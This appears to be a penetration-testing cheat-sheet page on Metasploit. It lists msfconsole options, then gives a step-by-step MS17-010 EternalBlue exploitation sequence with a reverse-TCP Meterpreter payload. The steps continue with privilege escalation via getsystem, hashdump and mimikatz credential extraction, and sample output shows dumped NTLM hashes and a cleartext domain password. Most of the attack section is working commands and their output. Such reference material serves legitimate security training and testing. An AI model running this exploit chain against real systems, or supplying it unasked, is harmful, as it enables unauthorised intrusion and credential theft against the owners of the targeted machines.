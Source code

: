 ```yaml
---
title : "Metasploit"
# pre : ' '
description : "The world's most used penetration testing framework."
date : 2020-03-11T16:59:30+01:00
# hidden : true
# draft : true
weight : 0
# tags : [""]
---
```


## Metasploit

The world's most used penetration testing framework.

### Installation

Please use [Kali Linux](https://www.kali.org/)

Download newest release from [Github.com](https://github.com/rapid7/metasploit-framework/releases)

### Usage

```plain
msfconsole [options]
```

### Flags

```plain
Usage: msfconsole [options]

Common options:
    -E, --environment ENVIRONMENT    Set Rails environment, defaults to RAIL_ENV environment variable or 'production'

Database options:
    -M, --migration-path DIRECTORY   Specify a directory containing additional DB migrations
    -n, --no-database                Disable database support
    -y, --yaml PATH                  Specify a YAML file containing database settings

Framework options:
    -c FILE                          Load the specified configuration file
    -v, -V, --version                Show version

Module options:
        --defer-module-loads         Defer module loading unless explicitly asked.
    -m, --module-path DIRECTORY      Load an additional module path

Console options:
    -a, --ask                        Ask before exiting Metasploit or accept 'exit -y'
    -H, --history-file FILE          Save command history to the specified file
    -L, --real-readline              Use the system Readline library instead of RbReadline
    -o, --output FILE                Output to the specified file
    -p, --plugin PLUGIN              Load a plugin on startup
    -q, --quiet                      Do not print the banner on startup
    -r, --resource FILE              Execute the specified resource file (- for stdin)
    -x, --execute-command COMMAND    Execute the specified console commands (use ; for multiples)
    -h, --help                       Show this message
```

### Meterpreter examples

#### getsystem

```plain
meterpreter > getsystem
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).
```

#### hashdump

```plain
meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:97f2592347d8fbe42be381726ff9ea83:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:102277341d6c113a28017200e1dfafe9:::
johndo:1107:aad3b435b51404eeaad3b435b51404ee:97f2592347d8fbe42be381726ff9ea83:::
adm_johndo:1108:aad3b435b51404eeaad3b435b51404ee:97f2592347d8fbe42be381726ff9ea83:::
janedo:1110:aad3b435b51404eeaad3b435b51404ee:f3fe13546c4c0d2db443a0865626203b:::
[...SNIP...]
```

### Examples

### MS17-010 - Eternalblue

{{%attachments title="Related files" fa_icon_class="far fa-file-video" pattern="ms17-010.*(mp4)"/%}}

#### Scanner

```plain
msf5 > use auxiliary/scanner/smb/smb_ms17_010
```

#### Exploit

```plain
msf5 > use exploit/windows/smb/ms17_010_eternalblue
msf5 > set rhost <target>
msf5 > set payload windows/x64/meterpreter/reverse_tcp
msf5 > set lhost <own-system>
msf5 > run
```

```plain
meterpreter > getsystem
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).

meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:97f2592347d8fbe42be381726ff9ea83:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:102277341d6c113a28017200e1dfafe9:::
johndo:1107:aad3b435b51404eeaad3b435b51404ee:97f2592347d8fbe42be381726ff9ea83:::
adm_johndo:1108:aad3b435b51404eeaad3b435b51404ee:97f2592347d8fbe42be381726ff9ea83:::
janedo:1110:aad3b435b51404eeaad3b435b51404ee:f3fe13546c4c0d2db443a0865626203b:::
[...SNIP...]

meterpreter > load kiwi
Loading extension kiwi...
mimikatz 2.2.0 20191125 (x64/windows)
Success.

meterpreter > creds_all
[+] Running as SYSTEM
[*] Retrieving all credentials
msv credentials
===============

Username       Domain   NTLM                              SHA1                                      LM
--------       ------   ----                              ----                                      --
Administrator  OFFSEC   97f2592347d8fbe42be381726ff9ea83  d0321e2e4e0712ba7b3f8c1998931312bf6a8b05  12a3cf9e7ff5e329f76ccb47241e3d88
DC2008R2$      OFFSEC   34acde5ae873319558ae6f191e8877bf  186dfbdbae180d8eb4c4406b03250e5194adf6af  

wdigest credentials
===================

Username       Domain   Password
--------       ------   --------
(null)         (null)   (null)
Administrator  OFFSEC   Welkom1234
[...SNIP...]
```

### URL list

* [Metasploit.com](https://www.metasploit.com/)
* [Offensive-security.com Meterpreter](https://www.offensive-security.com/metasploit-unleashed/meterpreter-basics/)
* [GitHub.com - Metasploit framework](https://github.com/rapid7/metasploit-framework)
